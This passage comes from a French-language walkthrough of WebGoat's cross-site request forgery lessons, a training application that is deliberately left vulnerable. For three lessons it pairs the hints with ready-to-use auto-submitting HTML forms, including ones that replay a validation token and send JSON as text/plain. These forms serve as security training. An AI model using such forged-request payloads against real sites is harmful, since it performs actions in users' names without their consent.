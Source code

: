 ```xml
</sorted-set>  
```

#### **(A8:2013) Request Forgery:**

##### Cross-Site Request Forgeries

3.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The form has hidden inputs.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) You will need to use an external page and/or script to trigger it.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try creating a local page or one that is uploaded and points to this form as its action.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The trigger can be manual or scripted to happen automatically

Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur.

```html
<form name="attack" action="http://host:port/WebGoat/csrf/basic-get-flag" method="POST">  
     <input type="hidden" name='csrf' value='true'>  
</form>  
<script>document.attack.submit();</script>  
```

4.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Again, you will need to submit from an external domain/host to trigger this action. While CSRF can often be triggered from the same host (e.g. via persisted payload), this doesn't work that way.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Remember, you need to mimic the existing workflow/form.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) This one has a weak anti-CSRF protection, but you do need to overcome (mimic) it

Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur.

```html
<form name="attack" action="http://host:port/WebGoat/csrf/review" method="POST">  
     <input type="hidden" name='reviewText' value='This App Rocks'>  
     <input type="hidden" name='stars' value='5'>  
     <input type="hidden" name='validateReq' value='2aa14227b9a13d0bede0388a7fba9aa9'>  
</form>  
<script>document.attack.submit();</script>  
```

7.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Look at the content-type.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try to post the same message with content-type text/plain  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The json can be put into a hidden field inside

Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur. 

```html
<form name="attack" enctype="text/plain" action="http://host:port/WebGoat/csrf/feedback/message" method="POST">  
     <input type="hidden" name='{"name": "Test", "email": "test1233@dfssdf.de", "subject": "service", "message":"dsaffd"}'>  
</form>  
<script>document.attack.submit();</script>
```

